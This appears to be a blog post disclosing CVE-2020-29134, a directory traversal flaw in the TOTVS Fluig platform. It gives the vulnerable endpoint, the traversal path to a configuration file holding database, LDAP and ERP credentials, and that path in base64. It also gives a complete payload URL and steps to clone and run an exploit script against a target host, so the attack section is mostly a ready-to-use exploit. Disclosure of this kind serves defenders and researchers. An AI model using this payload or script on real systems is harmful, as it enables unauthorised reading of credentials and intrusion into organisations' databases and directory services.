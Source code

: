 ```yaml
---
layout: post
title:  "CVE-2020–29134 Totvs Fluig Platform"
date:   2021-03-04 15:01:00
categories: CVE
---
```


#Fluig Platform

Fluig is the productivity and collaboration platform that integrates with the ERP system,
and your company’s other systems to revolutionize the way you and your team work.

#CVE-2020–29134

TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
When exploited, this vulnerability allows the reading of sensitive XML files,
which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
Building Payload

{FOTO}

#Attack Vector

http://fluig.host.com/volume/stream/Rmx1aWc=/
Path traversal plain text
?t=1&file=../../../../../../../../fluig/appserver/domain/configuration/domain.xml
Path traversal encoded base64
P3Q9MSZmaWxlPS4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2ZsdWlnL2FwcHNlcnZlci9kb21haW4vY29uZmlndXJhdGlvbi9kb21haW4ueG1s
Payload
http://fluig.host.com/volume/stream/Rmx1aWc=/P3Q9MSZmaWxlPS4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2ZsdWlnL2FwcHNlcnZlci9kb21haW4vY29uZmlndXJhdGlvbi9kb21haW4ueG1s

Exploit
Clone Repository
git clone https://github.com/lucxssouza/CVE-2020-29134.git
cd CVE-2020–29134
chmod +x xfluig.sh
Usage
Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)
Ex2: ./xfluig.sh http://fluig.host.com:PORT
